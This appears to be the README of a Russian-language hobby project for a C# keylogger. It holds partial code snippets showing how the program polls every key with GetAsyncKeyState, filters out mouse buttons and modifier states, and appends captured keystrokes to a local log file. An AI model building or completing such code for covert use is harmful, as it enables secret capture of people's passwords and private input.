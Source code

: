 ﻿## KeyLogger

#### Demonstration:

![demonstration](demo.gif)

#### Specification:

1. Раз в ```n``` мс опрашиваются все клавиши.

```c#
Thread.Sleep(100);
for (int i = 0; i < 255; i++)
{
    int state = GetAsyncKeyState(i);
    ...
}
```

2. Нажатые клавиши обрабатываются с учётом состояния клавиш
```Caps Lock```, ```Num Lock```, ```Shift```, ```Ctrl``` и т.д.

```c#
    ...
    if (state != 0) // pressed key
    {
        // ignore
        if (i == 0) continue; // idle
        if (((Keys)i) == Keys.LButton ||
            ((Keys)i) == Keys.RButton ||
            ((Keys)i) == Keys.MButton ... ) continue;
        ...
```

3. Результат логируется.

```c#
    ...
    // logging
    if (buf.Length > 5) // minimize disk operations
    {
        File.AppendAllText("keylogger.log", buf);
        buf = "";
    }
...
```
